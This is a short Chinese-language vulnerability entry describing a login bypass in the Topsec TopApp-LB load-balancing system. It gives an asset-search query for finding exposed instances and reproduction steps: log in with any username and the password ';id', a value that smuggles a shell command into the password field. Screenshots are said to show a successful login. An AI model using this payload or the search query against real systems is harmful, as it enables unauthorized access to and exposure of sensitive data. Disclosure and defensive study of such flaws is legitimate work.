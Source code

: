 # 天融信 TopApp-LB 登陆绕过漏洞

## 漏洞描述

天融信负载均衡TopApp-LB系统无需密码可直接登陆，查看敏感信息

## 影响版本

<a-checkbox checked>天融信负载均衡TopApp-LB</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="天融信-TopApp-LB-负载均衡系统"</a-checkbox></br>

## 漏洞复现

在登录页面中输入，账号:`任意账号`  密码:`;id`



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/trx-1.png)



成功登录

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/trx-2.png)